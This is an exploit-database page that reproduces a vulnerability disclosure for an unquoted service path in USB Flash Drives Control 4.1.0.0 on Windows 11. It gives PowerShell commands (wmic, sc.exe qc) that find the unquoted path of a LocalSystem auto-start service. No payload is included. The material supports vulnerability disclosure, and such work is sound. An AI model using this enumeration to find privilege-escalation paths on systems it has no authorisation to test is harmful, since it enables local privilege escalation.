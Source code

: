 ```yaml
---
title: USB Flash Drives Control 4.1.0.0 Unquoted Service Path exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172770&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-08
fetch_date: 2025-10-04T11:44:22.903138
---
```


# USB Flash Drives Control 4.1.0.0 Unquoted Service Path exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for USB Flash Drives Control 4.1.0.0 Unquoted Service Path

2023-06-07 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172770
# Exploit Title: USB Flash Drives Control 4.1.0.0 - Unquoted Service Path
# Date: 2023-31-05
# Exploit Author: Jeffrey Bencteux
# Vendor Homepage: https://binisoft.org/
# Software Link: https://binisoft.org/wfc
# Version: 4.1.0.0
# Tested on: Microsoft Windows 11 Pro
# Vulnerability Type: Unquoted Service Path

PS C:\> wmic service get name,displayname,pathname,startmode |findstr /i
"auto" |findstr /i /v "c:\windows"
USB Flash Drives Control usbcs C:\Program Files\USB Flash
Drives Control\usbcs.exe Auto

PS C:\> sc.exe qc usbcs
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usbcs
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Program Files\USB Flash Drives
Control\usbcs.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : USB Flash Drives Control
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem

PS C:\> systeminfo
OS Name: Microsoft Windows 11 Pro
OS Version: 10.0.22621 N/A Build 22621
OS Manufacturer: Microsoft Corporation

--
Jeffrey BENCTEUX
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)